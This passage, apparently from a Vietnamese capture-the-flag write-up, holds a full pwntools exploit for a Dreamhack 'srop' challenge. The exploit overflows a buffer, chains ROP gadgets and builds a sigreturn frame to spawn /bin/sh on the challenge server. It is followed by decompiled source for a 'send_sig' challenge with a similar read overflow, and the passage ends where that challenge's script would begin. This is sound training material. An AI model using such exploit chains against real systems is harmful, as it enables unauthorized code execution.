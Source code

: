 from pwn import *

context.binary = exe = ELF('./srop',checksec=False)
#p = process()
p = remote('host3.dreamhack.games', 10128)
pop_rdi = 0x0000000000400583
pop_rsi_r15 = 0x0000000000400581
pop_rax_sys = 0x00000000004004eb
syscall = next(exe.search(asm("syscall")))
bss = exe.bss()
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rsi = 0
frame.rip = 0x00000000004004ec
frame.rdi = 0x601a40
payload = b'a'*24
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(0x601a40) + p64(0)
payload += p64(exe.sym.read)
payload += p64(pop_rax_sys) + p64(15)
payload += bytes(frame)
p.send(payload)
sleep(3)
p.send(b'/bin/sh\x00')
p.interactive()
```

------------


14 . send_sig
-------

tương tự bài SigReturn-Oriented Programming , thiết lập các thanh ghi bằng SROP 

source : 
```
void FUN_004010b6(void)

{
  undefined local_10 [8];
  
  write(1,"Signal:",7);
  read(0,local_10,0x400);
  return;
}


void entry(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  write(1,"++++++++++++++++++Welcome to dreamhack++++++++++++++++++\n",0x39);
  write(1,"+ You can send a signal to dreamhack server.           +\n",0x39);
  write(1,"++++++++++++++++++++++++++++++++++++++++++++++++++++++++\n",0x39);
  FUN_004010b6();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
script 


```